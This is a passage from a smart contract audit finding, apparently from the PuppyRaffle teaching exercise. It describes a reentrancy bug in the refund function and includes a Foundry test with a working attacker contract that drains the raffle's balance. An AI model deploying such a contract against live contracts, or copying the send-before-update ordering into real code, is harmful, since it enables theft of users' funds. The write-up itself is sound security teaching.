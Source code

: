 ```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and continously claim refunds.  

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:** 

1. Users enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`.
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their contract, draining the contract balance.

**Proof of Code:** 

Add the following code to the `PuppyRaffleTest.t.sol` file. 

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

function testReentrance() public playersEntered {
    ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
    vm.deal(address(attacker), 1e18);
    uint256 startingAttackerBalance = address(attacker).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    attacker.attack();

    uint256 endingAttackerBalance = address(attacker).balance;
    uint256 endingContractBalance = address(puppyRaffle).balance;
    assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
    assertEq(endingContractBalance, 0);
```